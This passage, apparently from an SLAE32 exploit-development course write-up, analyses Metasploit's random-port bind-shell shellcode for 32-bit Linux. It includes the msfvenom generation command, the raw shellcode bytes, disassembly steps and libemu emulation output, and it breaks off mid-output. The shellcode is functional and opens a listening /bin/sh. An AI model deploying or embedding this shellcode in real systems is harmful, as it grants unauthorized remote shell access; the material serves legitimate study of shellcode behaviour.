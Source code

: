 ```bash
msfvenom -p linux/x86/shell_bind_tcp_random_port --platform=Linux -a x86 -f c | ndisasm -u -
```


Or a little quicker:

```bash
echo -ne "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80" | ndisasm -u -
```

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a5_Shellcode_Functionality/images/randbind/6.png)

Using awk it is possible to get only the part we want and create a .nasm file:

```bash
echo -e "section .text\nglobal _start \n_start:" > 3.nasm

echo -ne "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80" | ndisasm -u - | awk '{$2=$2};1' - | cut -d " " -f 3-10 >> 3.nasm
```

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a5_Shellcode_Functionality/images/randbind/7.png)



### Libemu

In this case Libemu works correctly:

```bash
echo -ne "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80" |  ./sctest -vvv -Ss 10000 -G randbind.dot
```

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a5_Shellcode_Functionality/images/randbind/4.png)

We get the next output:

```cpp
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int listen (
     int s = 14;
     int backlog = 0;
) =  0;
int accept (
     int sockfd = 14;
     sockaddr_in * addr = 0x00000000 => 
         none;
     int addrlen = 0x00000002 => 
         none;
) =  19;
int dup2 (
     int oldfd = 19;
     int newfd = 14;
) =  14;
int dup2 (
     int oldfd = 19;
     int newfd = 13;
) =  13;
int dup2 (
```